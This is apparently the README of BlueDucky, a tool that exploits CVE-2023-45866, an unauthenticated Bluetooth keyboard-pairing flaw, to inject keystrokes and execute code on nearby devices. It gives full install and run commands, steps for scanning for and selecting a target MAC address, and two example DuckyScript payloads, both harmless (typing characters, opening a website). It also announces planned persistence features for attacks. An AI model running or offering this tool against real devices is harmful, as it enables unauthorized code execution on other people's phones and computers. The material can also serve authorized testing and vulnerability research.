 # BlueDucky


CVE-2023-45866 - BlueDucky Implementation (Using DuckyScript)

Unauthenticated Peering Leading to Code Execution (Using HID Keyboard)

## Installation and Usage 🛠️

### Setup Instructions for Debian-based 

```bash
# update apt
sudo apt-get update
sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```
### Setup Instructions for Arch-based 

```bash
# update pacman & packages
sudo pacman -Syyu

# install dependencies
# since arch doesn't separate lib packages: libbluetooth-dev included in bluez package
sudo pacman -S bluez-tools bluez-utils bluez-deprecated-tools \
               python-setuptools python-pydbus python-dbus
               git gcc python-pip \

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```

## Running BlueDucky
```bash
git clone https://github.com/pentestfunctions/BlueDucky.git
cd BlueDucky
sudo hciconfig hci0 up
python3 BlueDucky.py
```

alternatively,

```bash
pip3 install -r requirements.txt
```

## Operational Steps 🕹️
1. On running, it prompts for the target MAC address.
2. Pressing nothing triggers an automatic scan for devices.
3. Devices previously found are stored in known_devices.txt.
4. If known_devices.txt exists, it checks this file before scanning.
5. Executes using payload.txt file.
6. Successful execution will result in automatic connection and script running.

## Duckyscript 💻
🚧 Work in Progress:
- Suggest me ideas

## Version 2.1 🐛
- Updated UI
- Improved User Experience
- Bluetooth Debugger; Checks your bluetooth adapters, and installed dependancies before allowing access to the application, this is to prevent devices that are not supported.
- Please Note: Numerous Changes have been made,please reference the commit history for specific changes.
  
## What's Planned for the Next Release?
- Integrated DuckyScript Console for attacks that want to maintain persistance, after a payload has been ran
- Suggest What Should be added next! Join https://discord.gg/HackNexus

#### 📝 Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
```

```bash
REM Opens a private browser to hackertyper.net
DELAY 200
ESCAPE
GUI d
ALT ESCAPE
GUI b
DELAY 700
REM PRIVATE_BROWSER is equal to CTRL + SHIFT + N
PRIVATE_BROWSER
DELAY 700
CTRL l
DELAY 300
STRING hackertyper.net
DELAY 300
ENTER
DELAY 300
```

## Enjoy experimenting with BlueDucky! 🌟







